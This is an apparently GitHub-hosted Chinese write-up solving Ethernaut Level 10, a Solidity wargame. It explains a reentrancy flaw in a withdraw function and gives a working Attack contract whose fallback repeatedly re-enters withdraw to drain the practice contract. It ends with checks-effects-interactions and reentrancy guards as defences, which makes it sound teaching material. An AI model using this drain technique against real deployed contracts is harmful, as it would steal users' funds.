


<div align="center">
<p align="left">(<a href="https://github.com/XuHugo/Ethernaut-Foundry-Solutions/tree/main/solutions">back</a>)</p>


<br><br>
<h1><strong>Ethernaut Level 10 - Reentrancy</strong></h1>

</div>
<br>

详细解读文章: [Ethernaut Foundry Solutions | Level 10 - Reentrancy](https://blog.csdn.net/xq723310/)

## 目录

- [目录](#目录)
- [目标](#目标)
- [漏洞](#漏洞)
- [解答](#解答)
- [要点](#要点)

## 目标

“盗取”合约里的所有资金


## 漏洞

本关卡，我们需要夺取合约中的所有资金。如果你熟悉重入攻击，那么这个题目就非常简单了。

可重入攻击一般发生在，对另一个合约的外部调用。例如，合约在收到eth后，合约就可以可以在`receive()`或`fallback()`函数响应转账。`receive()`或`fallback()`函数就是我们可以发动重入攻击的关键。这就是为什么“检查-效果-交互”模式(简称CEI)很重要。

在本例中，`msg.sender` 的余额在外部调用后更新，这为重入攻击打开了大门。

```javascript
function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }
```
如何攻击?

由于余额是在外部调用后更新的，因此我们可以调用`withdraw`函数，并在接收eth时通过`fallback()`函数重新进入合约。此时，虽然我们已经提取了余额，但由于状态还没有更新，我们可以再次提取!

```javascript
// This will always be true
balances[msg.sender] >= _amount;
```

我们可以重复这个过程，直到合约的余额耗尽。取款函数将最终完成其执行并更新我们的余额…有点晚了。

CEI:

- <b>Check: 确保所有输入和条件都是正确的.
- Effect: 更新所有状态.
- Interaction: 与其他合同交互.</b>

## 解答

让我们利用`withdraw`函数重新进入合约并提取它的余额，因为它并不是CEI模式。

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attack is Test {
    Reentrance instance;

    constructor(address payable fb) payable {
        instance = Reentrance(fb);
    }

    function attack() public {
        instance.withdraw(10);
    }

    fallback() external payable {
        uint256 bal = address(instance).balance;
        if (bal > 0) {
            if (bal >= msg.value) {
                instance.withdraw(msg.value);
            } else {
                instance.withdraw(bal);
            }
        }
    }
}
```

## 要点

- 必须遵循<b>CHECK-EFFECT-INTERACTION</b>.
- 也可以使用重入守卫。有备无患.


<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
